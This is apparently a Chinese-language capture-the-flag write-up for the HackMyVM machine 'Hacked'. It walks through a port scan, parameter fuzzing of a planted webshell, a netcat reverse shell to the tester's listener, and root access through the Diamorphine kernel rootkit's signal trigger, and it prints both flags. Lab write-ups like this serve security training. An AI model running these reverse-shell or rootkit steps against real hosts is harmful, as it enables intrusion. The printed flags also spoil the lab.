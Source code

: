 # Hacked

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-11-15

✔️ MD5 // 2ee68492e2ef713a5216abe792aec766

☠ Root // 57

💀 User // 57

📝Notes //
Hack and Fun. Tested on Virtualbox.

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.116
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.116
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 8d:75:44:05:5f:f8:4f:ac:a1:33:fa:84:03:db:6f:94 (RSA)
|   256 5a:b6:c6:9d:a9:15:42:74:4c:7a:f9:dd:67:ae:75:0e (ECDSA)
|_  256 05:97:3c:74:bd:cf:8d:80:87:05:26:64:7f:d9:3d:c3 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
```

## web 服务

尝试目录扫描

```plaintext
[11:08:42] 200 -   16B  - /index.html
[11:08:57] 200 -   16B  - /robots.txt
[11:09:00] 302 -   62B  - /simple-backdoor.php  ->  /
```

```plaintext title="/secretnote.txt"
[X] Enumeration
[X] Exploitation
[X] Privesc
[X] Maintaining Access.
 |__> Webshell installed.
 |__> Root shell created.

-h4x0r
```

```plaintext title="/simple-backdoor.php"
I modified this webshell to only execute my secret parameter.
```

尝试对 webshell 的参数进行 fuzz

```plaintext title=""
┌─[randark@parrot]─[~]
└──╼ $ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.116/simple-backdoor.php?FUZZ=id -fs 62
......
[Status: 302, Size: 115, Words: 12, Lines: 2, Duration: 28ms]
    * FUZZ: secret
```

尝试利用

```shell
┌─[randark@parrot]─[~]
└──╼ $ curl http://192.168.56.116/simple-backdoor.php?secret=whoami
I modified this webshell to only execute my secret parameter.
www-data
```

## User - www-data

```shell
# curl http://192.168.56.116/simple-backdoor.php?secret=nc+192.168.56.102+9999+-e+/bin/bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[11:51:03] Welcome to pwncat 🐈!
[11:51:10] received connection from 192.168.56.116:41060
[11:51:11] 192.168.56.116:41060: registered new host w/ db
(local) pwncat$ back
(remote) www-data@hacked:/var/www/html$ whoami
www-data
```

### Diamorphine LKM rootkit

[m0nad/Diamorphine: LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x/6.x (x86/x86_64 and ARM64)](https://github.com/m0nad/Diamorphine)

```shell
(remote) www-data@hacked:/tmp/Diamorphine$ ls -lh
total 32K
-rw-r--r-- 1 www-data www-data 1.5K Feb 18 23:05 LICENSE.txt
-rw-r--r-- 1 www-data www-data  190 Feb 18 23:05 Makefile
-rw-r--r-- 1 www-data www-data 1.7K Feb 18 23:05 README.md
-rw-r--r-- 1 www-data www-data  11K Feb 18 23:05 diamorphine.c
-rw-r--r-- 1 www-data www-data  642 Feb 18 23:05 diamorphine.h
-rw-r--r-- 1 www-data www-data   39 Feb 18 23:09 modules.order
```

:::warning

由于靶机上的 gcc 编译环境有问题，其中 `cc1` 程序不存在于 `PATH` 环境变量中，所以需要进行一定的 patch

```shell
(remote) www-data@hacked:/tmp/Diamorphine$ ln -s /usr/lib/gcc/x86_64-linux-gnu/8/cc1 /tmp/Diamorphine/cc1
(remote) www-data@hacked:/tmp/Diamorphine$ export PATH=/tmp/Diamorphine:$PATH
```

:::

然后开始编译

```shell
(remote) www-data@hacked:/tmp/Diamorphine$ make
make -C /lib/modules/4.19.0-12-amd64/build M=/tmp/Diamorphine modules
make[1]: Entering directory '/usr/src/linux-headers-4.19.0-12-amd64'
  CC [M]  /tmp/Diamorphine/diamorphine.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /tmp/Diamorphine/diamorphine.mod.o
  LD [M]  /tmp/Diamorphine/diamorphine.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.19.0-12-amd64'
```

:::note

失误了，忘记没有 root 权限没办法加载模块到内核。。。

:::

靶机已经部署过 Diamorphine

```shell
(remote) www-data@hacked:/tmp$ kill -63 0
(remote) www-data@hacked:/tmp$ lsmod | grep diamorphine
diamorphine            16384  0
```

## User - root

```shell
(remote) www-data@hacked:/tmp$ kill -64 0
(remote) root@hacked:/tmp$ whoami
root
```

### flag - user

```shell
(remote) root@hacked:/home/h4x0r$ cat user.txt
HMVimthabesthacker
```

### flag - root

```shell
(remote) root@hacked:/root$ cat root.txt
HMVhackingthehacker
```
